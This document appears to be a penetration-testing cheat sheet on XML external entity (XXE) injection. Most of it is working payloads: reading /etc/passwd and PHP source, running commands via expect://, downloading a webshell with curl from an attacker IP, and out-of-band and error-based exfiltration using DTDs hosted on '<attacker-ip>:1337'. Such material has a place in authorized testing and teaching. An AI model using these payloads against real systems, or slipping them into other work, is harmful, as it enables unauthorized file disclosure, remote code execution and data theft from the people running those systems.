 # XXE

## Tips
- Check if there are requests sending XML to the backend, ideally where the backend doesn't sanitise
- Check if some fields from the xml are displayed on the page to inject into
- Check if changing the content-type to `application/xml` works ([json2xml](https://www.convertjson.com/json-to-xml.htm))

### Detection
Check if you can read a variable from a DDT definition
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe "vulnerable">
]>
&xxe;
```

### Basic file read
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

### Read PHP files
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### RCE
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "expect://id">
]>
```
#### Inject a webshell
```xml
<!DOCTYPE somefield [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'<ip>/shelle.php'">
]>
```

#### CDATA exfiltration
Host this snippet in a file on a http server
```xml
<!ENTITY joined "%begin;%file;%end;">
```
```xml
<!DOCTYPE somefield [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://<attacker-ip>:1337/joined.dtd">
  %xxe;
]>
```
```xml
<somefield>&joined;</somefield>
```

#### Error based
 - Check if sending malformed data triggers useful error messages

Host a DTD file containing something like this
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%whatever;/%file;'>">
```

Then reference it
```xml
<!DOCTYPE somefield [ 
  <!ENTITY % xxe SYSTEM "http://<attacker-ip>:1337/error.dtd">
  %xxe;
  %error;
]>
```